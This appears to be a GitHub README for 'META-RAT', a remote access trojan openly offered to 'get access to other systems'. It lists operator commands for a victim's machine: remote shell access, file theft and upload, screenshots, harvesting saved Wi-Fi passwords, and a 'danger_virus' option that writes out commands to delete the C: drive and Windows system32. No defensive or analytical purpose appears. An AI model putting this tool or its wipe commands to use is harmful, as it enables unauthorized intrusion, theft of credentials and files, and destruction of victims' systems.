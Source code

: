 # META-RAT
This Tool is for get access to other systems

And This is the options that ypu can do in taget system : 

pwd : pwd 
---
Upload file : upload_file + (with link)
---
Destroy all the system : danger_virus (Remove Windows and system32) #RD C:\ /S /Q del c:\windows\system32*. * /q del /f /s /q “C:*.
---
Download File : pickup + [name of file] (.txt files)
---
Download Image : download
---
Change Directory : cd (cd + [dir name])
---
Rename File : ren_file_ + [file name] + [your name] (Change the name of the file)
---
Shutdown,Restart : shutdown,restart
---
open link : open_link + http://example.com (open any link in target system)
---
drives list : dir_ls (see the name of the drives)
---
system information : sys_info 
---
file list : ls (see all the file names that you are in drive)
---
Remove file : rm_file + [filename] (delete any files for ever)
---
Hack System Wlans : hackwifi (get name) , getpass_[name]
---
upload txt file : uptxt_ + [your text,dont use space] + [yourname]
---
Access Shell : cmd_+[you text] (For Access CMD)
---
Bad Sound : Badvoice_ + [Time]
---
Speak : say_ + [Your Text]
---
Change Background : chback_ + [Image Link] (Change Desktop Wallpaper)
---
Volume -> 100% : volumeup
---
Volume -> 0% : volumedown
---
Take Screen Shot : screenshot
![META RAT](https://user-images.githubusercontent.com/102474598/203798410-9f7afc74-be66-4e32-ae84-51b6b022febe.png)

